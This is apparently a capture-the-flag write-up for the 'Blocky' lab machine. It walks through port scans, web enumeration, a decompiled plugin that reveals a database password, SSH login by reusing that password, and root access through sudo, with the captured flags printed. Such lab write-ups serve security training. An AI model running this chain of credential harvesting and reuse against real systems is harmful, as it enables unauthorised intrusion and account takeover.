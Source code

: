 # Scan

```bash
ghost@localhost [21:54:34] [~/Documents/hacking/tj-null-boxes/blocky] [master]
-> % rustscan -a $IP -- -sC -sV

Open 10.10.10.37:21
Open 10.10.10.37:22
Open 10.10.10.37:80
Open 10.10.10.37:25565

PORT      STATE SERVICE   REASON  VERSION
21/tcp    open  ftp       syn-ack ProFTPD 1.3.5a
22/tcp    open  ssh       syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09d5c204951a90ef87562597df837067 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp    open  http      syn-ack Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 4.8
|_http-title: BlockyCraft &#8211; Under Construction!
25565/tcp open  minecraft syn-ack Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kerne
```

Also run `reconnoitre` for additional scans

```bash
ghost@localhost [23:30:33] [~/Documents/hacking/tj-null-boxes/blocky] [master *]
-> % reconnoitre -t $IP -o . --services
  __
|\"\"\"\-=  RECONNOITRE
(____)      An OSCP scanner by @codingo_
...
```


# FTP

```bash
ghost@localhost [23:31:37] [~/Documents/hacking/tj-null-boxes/blocky] [master *]
-> % nmap -sV -Pn -vv -p21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-syst,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 -oA '/home/ghost/Documents/hacking/tj-null-boxes/blocky/10.10.10.37/scans/10.10.10.37_21_ftp' 10.10.10.37

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD 1.3.5a
Service Info: OS: Unix

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:39
Completed NSE at 00:39, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:39
Completed NSE at 00:39, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.60 seconds
```


# 80 (blocky.htb)

It is running Wordpress server. From simple curl, I found the WordPress version (4.8).

```bash
ghost@localhost [21:57:51] [~/Documents/hacking/tj-null-boxes/blocky] [master]
-> % curl blocky.htb | grep 'content="WordPress'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17767    0 17767    0     0  10728      0 --:--:--  0:00:<meta name="generator" content="WordPress 4.8" />
100 52227    0 52227    0     0  13633      0 --:--:--  0:00:03 --:--:-- 13636
```

Running `feroxbuster` gives a handful of URLs.

```bash
ghost@localhost [00:40:59] [~/Documents/hacking/tj-null-boxes/blocky] [master *]
-> % feroxbuster -u http://blocky.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -k

403      GET       11l       32w      289c http://blocky.htb/.php
403      GET       11l       32w      290c http://blocky.htb/.html
...
```

## Wordpress

Running WP scan gives the result not so much interesting result. But found a user `notch`.

## Wiki

Found a wiki page at http://blocky.htb/wiki

Tried running `feroxbuster` on Wiki but did not give much information.

## PHPMyAdmin

Standard PHPMyAdmin can be found at http://blocky.htb/phpmyadmin

## Cute file browser

Found a cute file browser at http://blocky.htb/plugins with some `.jar` files.

Decompressing `BlockyCore.jar` and de-compiling the `.class` file gives the following Java code with database credentials.
`root:8YsqfCTnvxAUeduzjNSXe22`

```java
import com.myfirstplugin.BlockyCore;  
  
public class BlockyCore {  
  public String sqlHost = "localhost";  
    
  public String sqlUser = "root";  
    
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";  
    
  public void onServerStart() {}  
    
  public void onServerStop() {}  
    
  public void onPlayerJoin() {  
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");  
  }  
    
  public void sendMessage(String username, String message) {}  
}
```


# User

Using the user `notch` I tried password reuse by SSH directly with `notch:8YsqfCTnvxAUeduzjNSXe22` where the password is from SQL database. It works!

```bash
ghost@localhost [01:04:17] [~/Documents/hacking/tj-null-boxes/blocky] [master *]
-> % ssh notch@blocky.htb

notch@Blocky:~$ cat user.txt
d7febdfb03c5bc1a31217dea27d93df4
```


# Privilege escalation

Nothing out of ordinary there.

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch:
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Checking the `id` shows that the user is part of `sudo`

```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Therefore, `sudo su` gives root access.

```bash
notch@Blocky:~$ sudo su

root@Blocky:/home/notch# cd /root

root@Blocky:~# cat root.txt
c80b788349954a90423753105ab058d3
```
